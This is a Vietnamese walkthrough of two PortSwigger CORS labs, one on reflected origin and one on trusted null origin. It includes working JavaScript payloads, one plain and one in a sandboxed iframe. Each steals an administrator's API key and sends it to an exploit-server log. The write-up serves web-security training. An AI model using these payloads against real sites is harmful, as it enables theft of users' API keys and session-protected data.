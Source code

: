 
## [Lab 1: CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

![Yêu cầu lab 1](../image/lab1/0.png)

> - **Mô tả lab:** Lỗi cấu hình CORS rằng nó tin cậy tất cả các nguồn.
>
> - **Mục tiêu:** tạo JavaScript sử dụng CORS để truy xuất khóa API của `administrator`.

login `wiener:peter`, 

![Alt text](../image/lab1/01.png)

quan sát Response, truy xuất khóa API gọi đến `/accountDetails`

![Alt text](../image/lab1/02.png)

![Alt text](../image/lab1/03.png)![Alt text](../image/lab1/04.png)

thêm header `Origin` xem có truy cập được vào các nguồn khác không

![Alt text](../image/lab1/05.png)![Alt text](../image/lab1/06.png)

Giờ ta sẽ tạo JavaScript sử dụng CORS để truy xuất khóa API.

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET', 'https://0ac4006e03fd1f3e85f4366500ac00ec.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener(){
        location = 'https://exploit-0af0006003161fe7855b35ff01d80027.exploit-server.net/log?key=' + this.responseText;
    }
</script>
```

![Alt text](../image/lab1/07.png)

Store and Deliver to victim, ta sẽ nhận được Response trả về API key,

![Alt text](../image/lab1/08.png)

Lấy API key submit và solve lab

![Alt text](../image/lab1/09.png)

![Alt text](../image/lab1/10.png)

> **Test bằng Active Scan**

![Alt text](../image/lab1/11.png)

![Alt text](../image/lab1/12.png)

![Alt text](../image/lab1/13.png)

## [Lab 2: CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

![Yêu cầu lab 2](../image/lab2/0.png)

> - **Mô tả lab:** Lỗi cấu hình CORS không an toàn tin cậy nguồn `null`
>
> - **Mục tiêu:** tạo JavaScript sử dụng CORS, tải lên exploit server để trích xuất dữ liệu khóa API của `administrator` và submit key.

Đây là trang web của chúng ta, và là một trang web bán hàng

![Alt text](../image/lab2/01.png)

Đăng nhập với tài khoản cho trước `wiener:peter`, ta thấy thông tin có API key

![Alt text](../image/lab2/02.png)

Quan sát Response ta thấy có đoạn script truy cập đến `/accountDetails` để lấy API key.
 
![Alt text](../image/lab2/03.png)

Quan sát Request, ta thấy có `Access-Control-Allow-Credentials: true`

![Alt text](../image/lab2/04.png)

Test Origin

- Origin bất kỳ thì không thấy cho phép

![Alt text](../image/lab2/05.png)

- chỉ cho phép `null` --> có thể được hiểu là yêu cầu đến từ một nguồn không xác định hoặc không được xác định

Sau khi tìm hiểu, ta thấy giá trị này có thể được sử dụng trong một số trường hợp như thẻ iframe với thuộc tính sandbox.

Ví dụ, nếu bạn muốn nhúng một trang web khác vào trang web hiện tại bằng thẻ iframe, bạn có thể sử dụng thuộc tính sandbox để giới hạn các quyền truy cập của trang web được nhúng vào. Ví dụ, bạn có thể sử dụng thuộc tính sandbox để giới hạn quyền truy cập của trang web được nhúng vào chỉ cho phép các yêu cầu từ cùng một nguồn gốc (same-origin requests) hoặc giới hạn các quyền truy cập khác

![Alt text](../image/lab2/06.png)

Tạo thẻ iframe với thuộc tính sandbox chứa đoạn JavaScript

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0af10061038a450180ad853a00c000fb.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0ada003f03f745e48094845801a40009.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

![Alt text](../image/lab2/07.png)

Store và gửi cho victim, đợi admin truy cập ta sẽ có log được ghi vào `Access log`

![Alt text](../image/lab2/08.png)

decode để thấy kết quả

![Alt text](../image/lab2/09.png)

submit và solve lab

![Alt text](../image/lab2/10.png)

> **Test bằng Active Scan**

![Alt text](../image/lab2/11.png)

![Alt text](../image/lab2/12.png)

![Alt text](../image/lab2/13.png)